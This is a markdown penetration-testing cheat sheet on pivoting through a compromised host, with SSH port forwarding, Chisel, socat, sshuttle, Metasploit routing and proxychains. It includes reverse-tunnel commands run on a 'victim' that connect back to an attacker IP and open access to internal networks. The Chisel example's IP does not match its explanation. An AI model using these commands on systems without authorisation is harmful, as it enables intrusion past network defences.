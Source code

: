 # Tunneling & Port Forwarding

- [Tunneling \& Port Forwarding](#tunneling--port-forwarding)
  - [Using SSH](#using-ssh)
    - [Local Port Forwarding](#local-port-forwarding)
    - [Remote Port Forwarding](#remote-port-forwarding)
    - [Dynamic Port Forwarding](#dynamic-port-forwarding)
  - [Using Chisel](#using-chisel)
  - [Using socat](#using-socat)
    - [Local Port forwarding](#local-port-forwarding-1)
    - [Quiet port forwarding](#quiet-port-forwarding)
  - [Using shuttle](#using-shuttle)
  - [Using Metasploit](#using-metasploit)
  - [proxychains](#proxychains)


Summary:
- Proxychains and FoxyProxy are used to access a proxy created with one of the other tools
- SSH can be used to create both port forwards, and proxies
- plink.exe is an SSH client for Windows, allowing you to create reverse SSH connections on Windows
- Socat is a good option for redirecting connections, and can be used to create port forwards in a variety of different ways
- Chisel can do the exact same thing as with SSH portforwarding/tunneling, but doesn't require SSH access on the box
- sshuttle is a nicer way to create a proxy when we have SSH access on a target

## Using SSH

### Local Port Forwarding

Local port forwarding allows you to forward a port on the local (ssh client) machine to a port on the remote (ssh server) machine, which is then forwarded to a port on the destination machine.

```bash
ssh -L <ATTACKER_PORT>:localhost:<TARGET_PORT> <USER>@<TARGET_IP>
```

### Remote Port Forwarding 

Remote port forwarding is the opposite of local port forwarding. It allows you to forward a port on the remote (ssh server) machine to a port on the local (ssh client) machine, which is then forwarded to a port on the destination machine.

```bash
ssh -R <ATTACKER_PORT>:<ATTACKER_IP>:<TARGET_PORT> <USER>@<TARGET_IP>
```

### Dynamic Port Forwarding 

Dynamic port forwarding allows you to create a socket on the local (ssh client) machine, which acts as a SOCKS proxy server. When a client connects to this port, the connection is forwarded to the remote (ssh server) machine, which is then forwarded to a dynamic port on the destination machine.

```bash
ssh -D <ATTACKER_PORT> <USER>@<TARGET_IP> -fN
```

Options:
- `f`: Requests ssh to background itself after authentication
- `N`: Tells ssh not to execute a remote command (empty command)

## Using Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

We start by starting a chisel server on the attacker that will be listening on port 8000.

```bash
# Attacker
./chisel server -p 8000 --reverse
```

On the victim, we upload chisel binary and execute it in client mode. We follow this pattern to build our command: `<local-host>:<local-port>:<remote-host>:<remote-port>`

```bash
# Victim
.\chisel.exe client 10.10.10.10:8000 R:8888:localhost:8888
```

Explaining arguments:
- **10.10.16.6:8000** : attacker IP and the chisel server port
- **R:8888:localhost:8888** : 
    - **R** : indicate that we want to listen on the remote host (attacker)
    - **8888** : open a listener on port 8888 of the attacker
    - **localhost** : all traffic are forwarded to localhost... (victim)
    - **8888** : ... on port 8888 of the victim 

This command will create a tunnel. This tunnel allows us to forward all traffic sending to port 8888 of attacker (my computer) to port 8888 of the victim.

> **Github:** https://github.com/jpillora/chisel

## Using socat

### Local Port forwarding

Connect to port <compromised_host_port> on the compromised host and have our connection directly relayed to our intended target of :<target_ip>:<target_port>.

```bash
./socat tcp-l:<compromised_host_port>,fork,reuseaddr tcp:<target_ip>:<target_port> &
```

- `fork`: put every connection into a new process
- `reuseaddr`: the port stays open after a connection is made to it

### Quiet port forwarding

```bash
# creating a local port relay on the Attacker machine
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

# on the compromised machine
# create a relay server 
./socat tcp:ATTACKER_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

You can access the target server into localhost:ATTACKING_PORT.

> **Static Binary:** https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

## Using shuttle

sshuttle is a tool for creating VPN (Virtual Private Network) tunnels over ssh. It works by using ssh to forward traffic from the client machine to the server and uses iptables to configure the client machine's routing tables to direct traffic through the ssh tunnel.

```bash
# w/o private key
sshuttle -r user@172.16.0.5 172.16.0.0/24

# w/ private key
sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

> **Github:** https://github.com/sshuttle/sshuttle

## Using Metasploit

First you need to get a meterpreter session. Then:

```bash
run autoroute -s <TARGET_NETWORK_IP>/24

# simple port forward
portfwd add -L 127.0.0.1 -l 88 -p 88 -r <TARGET_IP>

# Or create a socks proxy
use auxiliary/server/socks_proxy
set srvport <PORT>
set version 4a
run
```

Then, with modify config of `proxychains` in `/etc/proxychains4.conf` with the port that you set earlier.

## proxychains

double pivot - proxychains - ToDo

https://theyhack.me/Proxychains-Double-Pivoting/
https://www.blackhillsinfosec.com/use-nmap-meterpreter/